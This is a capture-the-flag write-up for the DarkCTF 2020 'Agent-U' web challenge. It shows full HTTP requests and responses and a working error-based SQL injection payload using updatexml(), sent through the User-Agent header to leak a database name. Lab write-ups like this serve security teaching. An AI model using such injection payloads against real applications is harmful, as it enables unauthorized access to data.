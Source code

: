 # DarkCTF 2020 – Agent-U

* **Category:** web
* **Points:** 395

## Challenge

> Agent U stole a database from my company but I don't know which one. Can u help me to find it?
> 
> http://agent.darkarmy.xyz/
> 
> flag format darkCTF{databasename}

## Solution

Connecting to the web site will give you an authentication form with your IP printed on it. The title of the challenge seems related to the *User-Agent* string.

```html
<!DOCTYPE html>
<html>
<head>
<title>Agent U</title>
</head>

<body>

<center><font color=red><h1>Welcome Players To MY Safe House</h1></font></center> <br><br><br>

<form action="" name="form1" method="post">
<center>
<font color=yellow> Username : </font><input type="text"  name="uname" value=""/>  <br> <br>

<font color=yellow> Password : </font> <input type="text" name="passwd" value=""/></br> <br>
<input type="submit" name="submit" value="Submit" />
</center></form>
<font size="3" color="#FFFF00">

	<br><!-- TRY DEFAULT LOGIN admin:admin --> <br>




<br>Your IP ADDRESS is: x.x.x.x<br>

</font>
</div>
</body>
</html>
```

Analyzing the HTML source code, you can discover default credentials. Using them will print your User-Agent and an image.

```html
<!DOCTYPE html>
<html>
<head>
<title>Agent U</title>
</head>

<body>

<center><font color=red><h1>Welcome Players To MY Safe House</h1></font></center> <br><br><br>

<form action="" name="form1" method="post">
<center>
<font color=yellow> Username : </font><input type="text"  name="uname" value=""/>  <br> <br>

<font color=yellow> Password : </font> <input type="text" name="passwd" value=""/></br> <br>
<input type="submit" name="submit" value="Submit" />
</center></form>
<font size="3" color="#FFFF00">

	<br><!-- TRY DEFAULT LOGIN admin:admin --> <br>




<br>Your IP ADDRESS is: x.x.x.x<br><font color= "#FFFF00" font size = 3 ></font><font color= "#0000ff" font size = 3 >Your User Agent is: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0</font><br><br><br><img src="vibes.png"  /><br>

</font>
</div>
</body>
</html>
```

The usage of `X-Forwarded-For: 127.0.0.1` doesn't alter the IP address.

The challenge talks about a database, so trying to alter the User-Agent during authentication will give you a SQL error. *SQL injection* is possible via User-Agent string.

```
POST / HTTP/1.1
Host: agent.darkarmy.xyz
User-Agent: '
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://agent.darkarmy.xyz
Connection: close
Referer: http://agent.darkarmy.xyz/
Cookie: __cfduid=db2eda04fd2928b25481f8352b452e3151601110047
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit


HTTP/1.1 200 OK
Date: Sat, 26 Sep 2020 08:54:56 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.2.33
Vary: Accept-Encoding
CF-Cache-Status: DYNAMIC
cf-request-id: 056b386df800000f621202d200000001
Server: cloudflare
CF-RAY: 5d8bc35ccbb30f62-MXP
Content-Length: 989

<!DOCTYPE html>
<html>
<head>
<title>Agent U</title>
</head>

<body>

<center><font color=red><h1>Welcome Players To MY Safe House</h1></font></center> <br><br><br>

<form action="" name="form1" method="post">
<center>
<font color=yellow> Username : </font><input type="text"  name="uname" value=""/>  <br> <br>

<font color=yellow> Password : </font> <input type="text" name="passwd" value=""/></br> <br>
<input type="submit" name="submit" value="Submit" />
</center></form>
<font size="3" color="#FFFF00">

	<br><!-- TRY DEFAULT LOGIN admin:admin --> <br>




<br>Your IP ADDRESS is: x.x.x.x<br><font color= "#FFFF00" font size = 3 ></font><font color= "#0000ff" font size = 3 >Your User Agent is: '</font><br>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'x.x.x.x', 'admin')' at line 1<br><br><img src="vibes.png"  /><br>

</font>
</div>
</body>
</html>
```

So you have to leak the database name. The problem is that this query is an `INSERT` one, so you need to apply an appropriate approach. You can use an [error based approach via `Updatexml()`](https://osandamalith.com/2017/02/08/mysql-injection-in-update-insert-and-delete/).

The correct payload is the following.

```sql
'or updatexml(0,concat(0x7e,(SELECT database())),0) or'', '127.0.0.1', 'admin') #
```

```
POST / HTTP/1.1
Host: agent.darkarmy.xyz
User-Agent: 'or updatexml(0,concat(0x7e,(SELECT database())),0) or'', '127.0.0.1', 'admin') #
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://agent.darkarmy.xyz
Connection: close
Referer: http://agent.darkarmy.xyz/
Cookie: __cfduid=db2eda04fd2928b25481f8352b452e3151601110047
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit


HTTP/1.1 200 OK
Date: Sat, 26 Sep 2020 09:29:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.2.33
Vary: Accept-Encoding
CF-Cache-Status: DYNAMIC
cf-request-id: 056b57c35500000f7e720c8200000001
Server: cloudflare
CF-RAY: 5d8bf57eebb20f7e-MXP
Content-Length: 944

<!DOCTYPE html>
<html>
<head>
<title>Agent U</title>
</head>

<body>

<center><font color=red><h1>Welcome Players To MY Safe House</h1></font></center> <br><br><br>

<form action="" name="form1" method="post">
<center>
<font color=yellow> Username : </font><input type="text"  name="uname" value=""/>  <br> <br>

<font color=yellow> Password : </font> <input type="text" name="passwd" value=""/></br> <br>
<input type="submit" name="submit" value="Submit" />
</center></form>
<font size="3" color="#FFFF00">

	<br><!-- TRY DEFAULT LOGIN admin:admin --> <br>




<br>Your IP ADDRESS is: x.x.x.x<br><font color= "#FFFF00" font size = 3 ></font><font color= "#0000ff" font size = 3 >Your User Agent is: 'or updatexml(0,concat(0x7e,(SELECT database())),0) or'', '127.0.0.1', 'admin') #</font><br>XPATH syntax error: '~ag3nt_u_1s_v3ry_t3l3nt3d'<br><br><img src="vibes.png"  /><br>

</font>
</div>
</body>
</html>
```

The flag is composed with the database name, so it is the following.

```
darkCTF{ag3nt_u_1s_v3ry_t3l3nt3d}
```